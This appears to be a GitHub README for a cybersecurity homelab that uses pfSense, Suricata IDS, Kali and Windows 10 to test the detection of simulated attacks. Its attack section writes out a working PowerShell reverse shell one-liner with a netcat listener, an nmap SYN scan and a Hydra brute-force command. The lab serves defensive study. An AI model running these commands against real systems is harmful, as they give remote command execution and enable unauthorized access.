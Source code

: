 # 🛡️ Cybersecurity Homelab: Suricata IDS + Reverse Shell Attack Simulation

![Status](https://img.shields.io/badge/status-completed-brightgreen)  
![Platform](https://img.shields.io/badge/platform-VirtualBox-blue)  
![Log Type](https://img.shields.io/badge/logs-Suricata%20Alerts-orange)

## 📘 Project Overview

This project demonstrates how to set up a virtualized cybersecurity homelab using **pfSense**, **Suricata IDS**, **Kali Linux**, and **Windows 10**. It simulates a real-world cyberattack involving a **reverse shell** and evaluates **Suricata's detection capability**.

---

## 🏗️ Lab Topology

![_- visual selection](https://github.com/user-attachments/assets/4f46f75e-951e-4bed-b097-f30b0ecb1534)


All machines are connected via **VirtualBox Internal Network (LAN_NET)**.

---

## 🔧 Technologies Used

- VirtualBox
- pfSense Firewall + Suricata IDS
- Kali Linux (Netcat, Nmap, Hydra)
- Windows 10 (PowerShell reverse shell)
- Emerging Threats Open Rules

---

## ⚙️ Step-by-Step Setup

### 1. Homelab Configuration
- Installed pfSense and configured LAN interface as `192.168.1.1`
- Installed Suricata on pfSense and enabled Alert-only mode on LAN
- Added **Kali (192.168.1.100)** and **Windows (192.168.1.101)** to LAN_NET

### 2. Rule Configuration
- Enabled decoder and stream rules by default
- Added `emerging-shellcode.rules`, `scan.rules`, and `http-events.rules`
- Suricata configured to alert on suspicious traffic

---

## 🧪 Simulated Attacks

### ✔️ Reverse Shell
- On Kali:
  nc -nvlp 4444


  On Windows PowerShell:
  $c=New-Object Net.Sockets.TCPClient('192.168.1.100',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($r=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$r);$o=(iex $d 2>&1 | Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($o),0,$o.Length)}



   Nmap Port Scan:
sudo nmap -sS 192.168.1.101

Hydra Brute Force (HTTP):
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.101 http-get




